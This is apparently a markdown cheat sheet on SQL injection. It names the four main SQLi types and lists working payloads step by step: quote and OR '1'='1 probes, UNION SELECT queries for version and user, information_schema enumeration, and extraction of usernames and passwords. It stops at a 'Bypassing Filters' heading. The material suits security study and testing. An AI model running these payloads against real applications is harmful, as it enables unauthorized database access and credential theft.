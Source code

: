 ### 1. Union-Based

- Uses UNION operator to extract data by appending rows to result

### 2. Error-Based

- Information leaked through errors messages

### 3. Boolean-Based (Blind)

- Extract data bit by bit from application that responds differently to TRUE/FALSE

### 4. Time-Based (Blind)

- Infer data from response timing by using delay/sleep functions

---

## SQLi Steps

1. **Discovering SQLi**
   Test with simple payloads

```sql
'
"
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' /*
```

2. **Gathering Environment Info**

```sql
' UNION SELECT version() --
' UNION SELECT database() --
' UNION SELECT user() --
```

---

3. **Enumerating Schemas**

```sql
' UNION SELECT table_name FROM information_schema.tables --
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
```

4. **Extracting Data**

```sql
' UNION SELECT username,password FROM users --
```

---

## Bypassing Filters
